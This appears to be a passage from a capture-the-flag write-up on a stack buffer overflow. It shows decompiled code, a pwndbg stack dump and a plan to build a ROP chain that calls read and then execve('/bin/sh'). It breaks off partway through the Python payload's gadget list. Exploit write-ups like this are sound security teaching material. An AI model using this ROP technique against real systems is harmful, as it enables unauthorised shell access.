 `empty`:

```c
void empty(char *buf) {
  int i;
  
  for (i = 0; i < 18; i = i + 4) {
    *(undefined4 *)(buf + (long)i * 4) = 0xc3f48948;
  }
  return;
}
```

**Note**:  `empty()` does not complicates things, since it just fills some space which would be padding anyway. If for example we fill the buffer with 64 'A' characters, the stack would look like this:

```assembly
pwndbg> x/30gx $rsp
0x7fffffffdf80: 0x00007fffffffe0f8      0x0000000100000002
0x7fffffffdf90: 0x41414141c3f48948      0x4141414141414141
0x7fffffffdfa0: 0x41414141c3f48948      0x4141414141414141
0x7fffffffdfb0: 0x41414141c3f48948      0x4141414141414141
0x7fffffffdfc0: 0x41414141c3f48948      0x4141414141414141
0x7fffffffdfd0: 0x00000000c3f48948      0x0000000000401199
pwndbg> info frame
Stack level 0, frame at 0x7fffffffdfe0:
 rip = 0x400c0e in main; saved rip = 0x401199
 called by frame at 0x7fffffffe0e0
 Arglist at 0x7fffffffdfd0, args:
 Locals at 0x7fffffffdfd0, Previous frame's sp is 0x7fffffffdfe0
 Saved registers:
  rbp at 0x7fffffffdfd0, rip at 0x7fffffffdfd8
```

`sEBP` is overwritten, but we do not need it anyway.

#### what to do

We know that we can perform a buffer overflow, but still we need to leak and put on the stack the canary (if present), and execute at least two syscalls: one to read `/bin/sh` and put it in memory, the other one to execute `execve(/bin/sh, 0, 0);`. We also need to find some gadgets to setup the registers to run a syscall. Weirdly `ropper` won't find useful gadgets, while `ROPgadgets` works just fine.

Note that in order to do that we need to restart the execution from main, since the read only takes 137 bytes and our exploit is longer than that. Since the binary is not `PIE`, this is possible without leaking any address at runtime.

#### the exploit

The payload is made up by some padding necessary to reach `sEIP`. Then there is a first payload which is used to call a `read` to put in the heap `/bin/sh`, then we'll pass the string to put it in memory (at an arbitrary address decided by us):

```python
padding = b'A'*64
payload = b''
payload += padding
payload += b'B'*8
params = [
    # read
    pop_rdx_rsi['address'],
    8,
    binsh_addr,
    pop_rdi['address'],
    0,
    syscall_ret['address'],
```